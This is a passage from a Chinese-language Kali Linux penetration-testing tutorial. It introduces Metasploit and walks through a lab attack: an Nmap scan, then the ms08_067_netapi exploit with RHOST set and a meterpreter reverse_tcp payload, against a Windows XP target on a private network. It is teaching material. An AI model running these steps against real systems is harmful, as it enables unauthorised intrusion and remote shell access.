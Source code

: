 +   **框架基础**：Metasploit 具有丰富的基础，提供了在渗透测试期间所需的大量功能。其基本功能包括日志记录、配置、数据库存储、meterpreter 脚本等。

+   **辅助模块**：这是 Metasploit 的一个主要特点。辅助模块是可以执行各种任务的特定功能模块，包括先前和后期的利用。它的一些主要功能包括扫描、信息收集、发动特定攻击、操作系统检测、服务检测等。

+   **打包工具**：Metasploit 配备了几个方便的工具，可以进一步增强渗透测试体验。这些附加包可以创建独立的有效载荷，并使用不同的算法加密有效载荷，数据库连接，图形用户界面等。

+   **第三方插件**：Metasploit 可以集成多个第三方插件，并使用其结果构建自己的攻击结构。来自各种工具（如 Nmap、Nessus 和 NeXpose）的结果可以直接在框架内使用。

+   **开源**：Metasploit 的免费版本是开源的，因此可以根据需要进行完全扩展和修改。

可以通过导航至**应用程序** | **Kali Linux** | **前 10 个安全工具** | **Metasploit Framework**来启动 Metasploit。

一旦控制台加载完成，您将注意到`msf>`提示，这表明 Metasploit 现在已准备好接收您的命令。

要开始使用 Metasploit 进行渗透测试，我们需要一个目标系统。让我们启动快速 Nmap 扫描，以找出我们网络中的活动系统。我们将使用以下命令启动 Nmap：

```
msf > nmap 192.168.56.1/24

```

![Metasploit 的特点](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ins-kali/img/5664OT_03_16.jpg)

在前面的截图中，您可以看到 Nmap 已检测到四个不同的目标系统。让我们以 192.168.56.102 的 IP 目标一个 Windows XP 系统。现在 Nmap 已经发现我们的目标系统正在使用 Windows XP 操作系统，我们的下一个目标将是为 Windows XP 识别远程漏洞。幸运的是，我们有一些稳定的漏洞。让我们在 Metasploit 存储库中搜索`netapi`漏洞。

```
msf > search netapi

```

![Metasploit 的特点](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ins-kali/img/5664OT_03_17.jpg)

让我们选择`exploit`模块的`ms08_067_netapi`模块，该模块被评为`great`。要激活此模块，请在控制台上输入以下命令：

```
msf > use exploit/windows/smb/ms08_067_netapi

```

这将把控制台提示更改为`exploit`模块，表示您的`exploit`模块已准备好执行。

现在我们的下一步将是向`exploit`模块传递所需的参数值。`show options`命令显示所需的参数。

这里需要传递`RHOST`值。`RHOST`是我们要定位的远程主机。

```
msf exploit(ms08_067_netapi) > set RHOST 192.168.56.102

```

一旦设置了`exploit`模块，下一步是选择`PAYLOAD`。让我们使用`meterpreter`有效载荷如下：

```
msf exploit(ms08_067_netapi) >set PAYLOAD windows/meterpreter/reverse_tcp

```

选择了`meterpreter`有效载荷后，现在我们需要传递有效载荷参数值。再次传递`show options`命令以查看所需的参数。传递 LHOST IP，即攻击机的 IP。

现在我们已经准备好启动 exploit。传递`exploit`命令以将`exploit`模块发送到目标机器。
